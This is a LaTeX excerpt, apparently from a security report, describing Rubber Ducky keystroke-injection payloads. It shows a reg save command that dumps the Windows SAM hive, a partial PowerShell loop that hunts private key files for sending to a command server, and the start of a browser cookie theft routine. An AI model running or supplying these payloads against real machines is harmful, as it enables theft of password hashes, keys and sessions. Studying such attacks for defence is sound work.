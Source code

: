 \subsubsection{Extract SAM hashes}

Hash's associated keys, subkeys, and values make up a hive that can be exfiltrated from the Windows system by storing it in a file and sending it to a command and control (C\&C) server. \\
Once admin privileges on a terminal have been secured, this is a straightforward process. 


 \begin{lstlisting} [caption={Exceprt: extract and SAM files}, captionpos=b]
 STRINGLN reg save HKLM\SAM C:\sam.hiv
 \end{lstlisting}

\subsubsection{Extract Private Key Files}

File extensions can be searched with the help of PowerShell. For that reason, this extraction payload will run a simple loop on a predefined (default) path to a directory that is expected to contain private key files and send the discovered files to a command server. 

\begin{lstlisting}[caption={Exceprt: search for private key files by their file extension}, captionpos=b]
DUCKY_LANG DE_CH
DELAY 50
GUI r
DELAY 200
STRINGLN powershell.exe
DELAY 2500
STRINGLN $entryPoint = "your/path"
DELAY 200
STRINGLN $extensions = @(".key", ".pgp", ".gpg", ".ppk", ".p12", ".pem", ".pfx", ".cer", ".p7b", ".asc")
DELAY 200
STRINGLN Get-ChildItem -Path $entryPoint -Recurse | ForEach-Object {
DELAY 200
STRINGLN     if ($_.PSIsContainer) {
DELAY 200
STRINGLN         return
DELAY 200
STRINGLN     }
DELAY 200
STRINGLN     if ($extensions -contains $_.Extension) {
DELAY 200
\end{lstlisting}


\subsubsection{Steal Web Session Cookies}

A client's default browser can be extracted via PowerShell using only one line:
\begin{lstlisting}[caption={Exceprt: Find a target's default browser}, captionpos=b]
STRINGLN $file = ""
DELAY 100
STRINGLN if ($defaultBrowserProgId -match 'firefox') {
DELAY 100
STRINGLN     $file = "C:\Users\$env:USERNAME\AppData\Roaming\Mozilla\...
\end{lstlisting}

